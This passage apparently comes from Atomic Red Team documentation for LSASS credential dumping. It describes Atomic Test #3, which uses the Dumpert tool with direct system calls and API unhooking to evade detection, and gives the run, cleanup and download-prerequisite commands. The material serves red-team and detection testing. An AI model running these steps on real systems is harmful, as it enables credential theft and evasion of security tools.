#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\lsass-comsvcs.dmp -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Dump LSASS.exe Memory using direct system calls and API unhooking
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved using direct system calls and API unhooking in an effort to avoid detection. 
https://github.com/outflanknl/Dumpert
https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/
Upon successful execution, you should see the following file created C:\\windows\\temp\\dumpert.dmp.

If you see a message saying \"The system cannot find the path specified.\", try using the  get-prereq_commands to download the  tool first.

**Supported Platforms:** Windows


**auto_generated_guid:** 7ae7102c-a099-45c8-b985-4c7a2d05790d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dumpert_exe | Path of Dumpert executable | path | PathToAtomicsFolder&#92;T1003.001&#92;bin&#92;Outflank-Dumpert.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{dumpert_exe}
```

#### Cleanup Commands:
```cmd
del C:\windows\temp\dumpert.dmp >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: Dumpert executable must exist on disk at specified location (#{dumpert_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dumpert_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -ItemType Directory (Split-Path #{dumpert_exe}) -Force | Out-Null
Invoke-WebRequest "https://github.com/clr2of8/Dumpert/raw/5838c357224cc9bc69618c80c2b5b2d17a394b10/Dumpert/x64/Release/Outflank-Dumpert.exe" -OutFile #{dumpert_exe}
```
